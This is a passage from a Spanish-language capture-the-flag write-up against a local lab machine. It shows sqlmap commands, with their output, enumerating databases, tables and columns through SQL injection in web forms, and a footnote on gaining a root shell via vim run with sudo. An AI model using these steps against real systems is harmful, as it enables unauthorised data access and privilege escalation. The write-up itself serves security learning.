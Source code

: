 ![Respuesta de formulario]()
```bash
> sqlmap -u http://172.17.0.2/index.php --forms --dbs --batch
[20:07:01] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 22.04 (jammy)
web application technology: Apache 2.4.52
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[20:07:01] [INFO] fetching database names
[20:07:01] [INFO] retrieved: 'information_schema'
[20:07:01] [INFO] retrieved: 'register'
[20:07:01] [INFO] retrieved: 'sys'
[20:07:01] [INFO] retrieved: 'mysql'
[20:07:01] [INFO] retrieved: 'performance_schema'
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] register
[*] sys

[20:07:01] [INFO] you can find results of scanning in multiple targets mode inside the CSV file '/home/kali/.local/share/sqlmap/output/results-09072025_0805pm.csv'

[*] ending @ 20:07:01 /2025-09-07/
```   
* Con -u indicamos la url.
* --forms le dice a sqlmap que busque formularios en la página (inputs, login forms, búsqueda, etc.) y trate de inyectar SQL allí.
* Con --dbs indicamos que queremos listar las bases de datos disponibles si encuentra una inyección exitosa.
* Con --batch indicamos a sqlmap que no nos pregunte  durante el ataque, sino que asuma respuestas por defecto. Es útil para automatizar el proceso en scripts o pruebas largas.

Bien, hemos encontrado la base de datos *register* así que accedemos a ella y listamos las tablas que pueda haber.

```bash
> sqlmap -u http://172.17.0.2 --forms -D register --tables --batch
[20:15:29] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 22.04 (jammy)
web application technology: Apache 2.4.52
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[20:15:29] [INFO] fetching tables for database: 'register'
[20:15:29] [INFO] retrieved: 'users'
Database: register
[1 table]
+-------+
| users |
+-------+

[20:15:29] [INFO] you can find results of scanning in multiple targets mode inside the CSV file '/home/kali/.local/share/sqlmap/output/results-09072025_0815pm.csv'

[*] ending @ 20:15:29 /2025-09-07/
```
Esto nos ha indicado que en esta base de datos hay una tabla que se llama *users*, la cual, sospechosamente, puede contener usuarios.  Ahora que ya tenemos la tabla, lo que nos interesa es conseguir las columnas, así que ejecutamos:
```bash
> sqlmap -u http://172.17.0.2 --forms -D register -T users --columns --batch
[20:20:43] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 22.04 (jammy)
web application technology: Apache 2.4.52
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[20:20:43] [INFO] fetching columns for table 'users' in database 'register'
```

[^1]: Vim es un editor de texto para sistemas Unix/Linux que, al poder ejecutarse con sudo, se convierte en una vía de escalada de privilegios porque permite lanzar comandos de sistema desde dentro del editor (por ejemplo con :!bash), lo que posibilita abrir una shell con permisos de root.